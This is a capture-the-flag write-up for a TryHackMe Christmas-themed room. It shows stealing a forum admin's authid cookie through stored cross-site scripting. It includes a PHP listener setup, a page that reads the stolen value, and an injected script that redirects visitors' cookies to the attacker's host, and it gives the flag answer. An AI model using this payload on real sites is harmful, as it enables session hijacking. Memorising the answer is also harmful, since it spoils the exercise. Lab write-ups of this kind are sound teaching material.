 ## Introduction

> McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT   
> _we need to learn more about the christmas monster_   
> During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.  
> Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.   

> [Check out the supporting material here](./Supporting_Docs.pdf).

> P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.


## Questions

> What is the admin's authid cookie value?

td:lr Answer: **2564799a4e6689972f6d9e1c7b406f87065cbf65**


===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can start a web browser and navigate to the IP address provided:

`<ip>:3000`

![](./res/pic1.png)

We need to register for an account and log in. Then we will see a simple forum layout within:

![](./res/pic2.png)

For this exercise, we need to steal admin's authid cookie value and have it submitted to a remote page hosted by us so we see its value.

So first we need to create a root directory, and create a index.html and a PHP page:

`mkdir cookiestealer` 
`cd cookiestealer/`  
`touch index.html`  
`touch cookiestealer.php`

Within the index.html, we can setup some parameters to test it's working:

> <html>  
> <head>  
> <title> Stealer!</title>  
> </head>  
> <body>  
> <script type="text/javascript">  
> urlstring = new URL(window.location.href);
> document.write("Cookie value: " + urlstring.searchParams.get("c")); 
> </script>

Let's set up our simple web hosting using php:

`php -S <ip>:80`  
then we open a web browser and go to that IP:

![](./res/pic3.png)

Ok our page is working, and we successfully grabbed the URL param.

We can also see the URL params on our command line:

![](./res/pic4.png)

Now all we need to do is perform a simple XSS injection into the forum, such that anyone who visits the forum will automatically have its cookie redirected to our web page.

Back at the forum, let's inject this into the forum post:

`<script type="text/javascript"> document.location='http://<ip>/index.html?c='+document.cookie; </script>`

Now all we need to do is wait for the admin to visit the forum, then our XSS scripting post will redirect admin's cookie to our web page...

Check out our command line after a few minutes:

![](./res/pic5.png)

And there we got the admin's authid cookie value: **2564799a4e6689972f6d9e1c7b406f87065cbf65**





